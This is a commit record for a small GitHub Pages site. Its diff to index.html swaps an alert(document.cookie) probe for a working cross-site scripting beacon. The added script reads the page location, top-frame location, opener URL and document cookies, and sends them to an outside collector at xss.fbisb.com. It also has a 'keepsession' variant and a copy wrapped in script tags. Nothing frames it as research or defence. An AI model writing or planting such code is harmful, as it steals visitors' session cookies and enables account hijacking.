

Before and after one commit to wjd32/wjd32.github.io, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1 +1,2 @@
-alert(document.cookie);//<script>alert(document.cookie);</script>
+(function(){(new Image()).src='http://xss.fbisb.com/xss.php?do=api&id=xOwl&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();if(''==1){keep=new Image();keep.src='http://xss.fbisb.com/xss.php?do=keepsession&id=xOwl&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
+//<script>(function(){(new Image()).src='http://xss.fbisb.com/xss.php?do=api&id=xOwl&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();if(''==1){keep=new Image();keep.src='http://xss.fbisb.com/xss.php?do=keepsession&id=xOwl&url='+escape(document.location)+'&cookie='+escape(document.cookie)};</script>
```
